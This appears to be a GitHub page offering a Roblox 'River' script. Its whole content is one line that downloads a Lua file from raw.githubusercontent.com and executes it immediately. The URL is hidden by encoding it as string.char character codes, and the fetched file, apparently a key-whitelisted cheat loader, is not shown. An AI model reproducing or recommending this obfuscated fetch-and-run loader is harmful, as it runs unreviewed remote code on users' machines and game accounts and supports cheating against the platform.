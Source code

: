 ROBLOX-功能仓库代码

ROBLOX河流脚本loadstring(game:HttpGet(string.char(104,116,116,112,115,58,47,47,114,97,119,46,103,105,116,104,117,98,117,115,101,114,99,111,110,116,101,110,116,46,99,111,109,47,65,87,68,88,45,68,89,86,66,47,116,101,115,116,47,109,97,105,110,47,37,69,54,37,66,50,37,66,51,37,69,54,37,66,53,37,56,49,45,37,69,53,37,65,70,37,56,54,37,69,57,37,57,50,37,65,53,45,37,69,55,37,57,57,37,66,68,37,69,53,37,57,48,37,56,68,37,69,53,37,56,68,37,57,53,45,37,69,54,37,66,65,37,57,48,37,69,55,37,65,48,37,56,49,46,108,117,97)))()
